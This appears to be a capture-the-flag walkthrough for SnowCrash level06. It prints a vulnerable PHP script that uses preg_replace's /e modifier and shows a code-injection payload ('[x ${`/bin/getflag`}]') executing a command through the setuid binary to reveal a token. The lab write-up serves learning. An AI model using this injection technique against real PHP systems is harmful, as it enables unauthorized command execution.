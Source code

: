 # Level 06
Let's enumerate:

    level06@SnowCrash:~$ ls
    level06  level06.php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
So this is a regex code that's replacing our argument to level06 by changing it, let's try an injection by formating our input:

    level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' > /tmp/regex.txt
    level06@SnowCrash:~$ ./level06 /tmp/regex.txt
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
